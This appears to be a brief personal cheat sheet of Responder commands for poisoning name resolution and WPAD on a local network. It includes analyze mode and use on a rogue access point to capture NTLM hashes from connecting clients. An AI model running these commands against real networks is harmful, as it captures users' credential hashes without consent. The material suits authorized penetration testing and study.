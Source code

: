 
Basics :

```
sudo responder -I <interface>
```

------

Analyze mode:

```
sudo responder -I <interface> -A
```

Analyze mode allows to observe what is going on <mark style="background: #FFB86CA6;">without poisoning anything</mark>. 

------

Responder wpad:

```
sudo responder -I <interface> -wF
```

------

Responder on a rogue AP:

```
sudo responder -I <inteface> -dwP -vvv
```

This allows to get NTLM hash when connecting because of the Proxy Auth and pensioning the dns request with wpad.

------
